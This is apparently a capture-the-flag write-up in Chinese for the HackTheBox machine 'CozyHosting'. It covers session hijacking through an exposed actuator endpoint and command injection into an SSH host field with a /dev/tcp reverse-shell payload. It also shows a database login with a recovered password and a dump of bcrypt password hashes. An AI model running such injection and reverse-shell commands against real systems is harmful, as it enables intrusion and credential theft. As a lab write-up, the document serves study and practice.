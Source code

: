 ## CozyHosting
#eASY #Linux

nmap 扫描端口

dirsearch 扫描目录

![](attachments/Pasted%20image%2020230910150836.png)

`http://cozyhosting.htb/actuator/sessions`

![](attachments/Pasted%20image%2020230910150903.png)

配置cookie登录，访问admin

![](attachments/Pasted%20image%2020230910151303.png)

host ：127.0.0.1
username: root

![](attachments/Pasted%20image%2020230910153419.png)

这里应该是命令执行 ssh


![](attachments/Pasted%20image%2020230910153533.png)

带有username和host的是`[-J [user@]host[:port]]`

```
;`(sh)0>/dev/tcp/10.10.16.8/9999`
exec >&0
```
![](attachments/Pasted%20image%2020230910164753.png)

script /dev/null -c bash 美化

![](attachments/Pasted%20image%2020230910164957.png)

python 将jar包下载

![](attachments/Pasted%20image%2020230910195809.png)


`psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost/postgres"`

连接进入

![](attachments/Pasted%20image%2020230911075447.png)

```
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

